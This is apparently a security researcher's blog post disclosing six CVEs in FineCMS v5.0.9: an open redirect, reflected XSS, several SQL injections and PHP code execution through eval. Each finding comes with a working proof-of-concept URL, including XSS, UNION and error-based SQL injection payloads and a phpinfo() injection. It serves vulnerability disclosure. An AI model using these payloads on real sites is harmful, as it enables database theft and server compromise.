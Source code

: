 ```yaml
---
title: FineCMS multi vulnerablity before v5.0.9
date: 2017-07-20 18:55:48
tags:
- Blogs
- cve
- sqli
categories:
- Blogs
---
```



somedays ago, we found many vulerablity in FineCMS v5.0.9, contains remote php code execution、some sql injection、URL Redirector Abuse and Cross Site Scripting.

- CVE-2017-11581
- CVE-2017-11582
- CVE-2017-11583
- CVE-2017-11584
- CVE-2017-11585
- CVE-2017-11586

<!--more-->


# URL Redirector Abuse #

## Technical Description: ##

file `/finecms/dayrui/controllers/Weixin.php` function sync without any limit and can redirect any url.

## Poc ##

view website and login
```
http://finecms.com/index.php?c=weixin&m=sync&url=http://www.baidu.com
```

![image.png-73.3kB][1]


# Reflected XSS #

## Technical Description: ##

file `/finecms/dayrui/controllers/admin/Login.php` line17~line57
```
$this->template->assign('username', $this->input->post('username', TRUE));
$this->template->display('login.html');
```

when we input error username and password to login, the xssclean only filter the username startwith `'<'`, if we use dom xss，it will output without any validated, sanitised or output encoded.

## PoC ##

view website admin pages and login use username
```
" onmousemove=alert`1` a="1
```

when login fail and mousermove the input field.

![image.png-48.2kB][2]

# api.php Reflected XSS #

## Technical Description: ##

file `/finecms/dayrui/controllers/api.php` line145-165 data2 function

![image.png-182.3kB][9]

the function parameter output into pages without any validated, sanitised or output encoded when function not exist.

## PoC ##

```
http://finecms.com/index.php?c=api&m=data2&function=<script>alert(1)</script>p&format=php
```
![image.png-45.9kB][10]


# SQL injection in action=related catid parameter #

## Technical Description: ##

file `/finecms/dayrui/libraries/Template.php` function list_tag `action=related`, the `catid` parameter split by `','` and insert into sql query without any validated, sanitised, we can use it get all of the database.

## PoC ##

view the website and get the SYS_KEY from cooke

and payload is 
```
http://finecms.com/index.php?
c=api&m=data2&auth={md5(SYS_KEY)}&param=action=related%20module=news%20tag=1,2%20catid=1,12))%0aand%0a0%0aunion%0aselect%0a*%0afro
m(((((((((((((((((((select(user()))a)join(select(2))b)join(select(3))c)joi
n(select(4))d)join(select(5))e)join(select(6))f)join(select(7))g)join(sele
ct(8))h)join(select(9))i)join(select(10))j)join(select(11))k)join(select(1
2))l)join(select(13))m)join(select(14))n)join(select(15))o)join(select(16)
)p)join(select(17))q)join(select(18))x)%23
```

![image.png-65.2kB][3]

# SQL injection after limit via $system[num] parameter #

## Technical Description: ##

file `/finecms/dayrui/libraries/Template.php` function list_tag `action=tags` and `action=related`, the `$system['num']` parameter insert into sql query without any validated, sanitised.

Only 5.0.0<mysql<5.6.6 we can use analyse() to sql injection get data.

## PoC ##

view the website and get the SYS_KEY from cooke

and payload is 
```
http://finecms.com/index.php?
c=api&m=data2&auth=202cb962ac59075b964b07152d234b70&param=action=related%2
0catid=1%20tag=1,2%20num=1/**/PROCEDURE/**/analyse(extractvalue(rand(),con
cat(0x3a,version())),1)

http://finecms.com/index.php?
c=api&m=data2&auth=202cb962ac59075b964b07152d234b70&param=action=tags%2
0catid=1%20tag=1,2%20num=1/**/PROCEDURE/**/analyse(extractvalue(rand(),con
cat(0x3a,version())),1)
```

# SQL injection via $system[field] parameter #

## Technical Description: ##

file `/finecms/dayrui/libraries/Template.php` function list_tag `action=related`、`action=form`、`action=member`、`action=module` the `$system['field']` parameter insert into sql query without any validated, sanitised.

## PoC ##

```
http://finecms.com/index.php?c=api&m=data2&auth=820686a208b89d4c2f8b6f2622eff83e&param=action=related%20module=news%20tag=1%20field=1%0aunion%0aselect%0auser()%23
```
![image.png-40.6kB][4]

```
http://finecms.com/index.php?
c=api&m=data2&auth=202cb962ac59075b964b07152d234b70&param=action=form%20fo
rm=1%20field=1%0aunion%0aselect%0auser()%23
```
![image.png-42.4kB][5]

```
http://finecms.com/index.php?
c=api&m=data2&auth=202cb962ac59075b964b07152d234b70&param=action=member%20
field=1%0aunion%0aselect%0auser()%23
```
![image.png-30.6kB][6]

```
http://finecms.com/index.php?c=api&m=data2&auth=820686a208b89d4c2f8b6f2622eff83e&param=action=module%20form=1%20module=news%20field=1%0aunion%0aselect%0auser()%23
```
![image.png-34.3kB][7]

# remote php code execution #

## Technical Description: ##

file `/finecms/dayrui/libraries/Template.php` function list_tag `action=cache`, we can bypass some filter and insert parameter `$_param` into eval function and execute php code.

## PoC ##

```
http://finecms.com/index.php?c=api&m=data2&auth=820686a208b89d4c2f8b6f2622eff83e&param=action=cache%20name=MEMBER.1'];phpinfo();$a=['1
```

![image.png-68kB][8]


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/bypfg8rxkludnscn6k7i06bx/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cta71z8vhzrdv5h9xgvyjirl/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g3fahvxj1u1628qhm6dwrelp/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g111thw2rkktq201cdcy0vgj/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/uayzgncag8bh36fg9d8ii3fq/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1k1qcb858g9jvsozo40sy35t/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/yfo0vsmibo19y94ld7kf6t00/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dyjq3635yf7ascfdxqmklyql/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/oxxa39k1ctnodcfdibrzk8mb/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g6c9j510dmf41jqluwewf7lc/image.png